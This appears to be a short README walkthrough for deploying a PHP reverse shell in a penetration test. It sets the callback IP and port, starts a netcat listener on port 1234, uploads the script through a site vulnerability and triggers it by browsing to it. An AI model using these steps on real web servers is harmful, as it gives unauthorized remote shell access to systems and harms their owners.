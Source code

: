 # Walk Through
- [x] **Modify the source**
- To prevent someone else from abusing your backdoor – a nightmare scenario while pentesting – you need to modify the source code to indicate where you want the reverse shell thrown back to.  Edit the following lines of php-reverse-shell.php:
______________
| Variable      | Default                | Personal?                       |
| ------------- |:----------------------:| -------------------------------:|
| $ip           | __170.0.0.1__          | Edit __line 7__                 |
| $port         | __1234__               | Edit __line 8__                 |
______________

- [x] **Get Ready to catch the reverse shell**
- Start a TCP listener on a host and port that will be accessible by the web server.  Use the same port here as you specified in the script (1234 in this example):
```
$ nc -v -n -l -p 1234
```
- [x] **Upload and Run the script**
- Using whatever vulnerability you’ve discovered in the website, upload php-reverse-shell.php.  Run the script simply by browsing to the newly uploaded file in your web browser (NB: You won’t see any output on the web page, it’ll just hang if successful):
```
http://somesite/php-reverse-shell.php
```
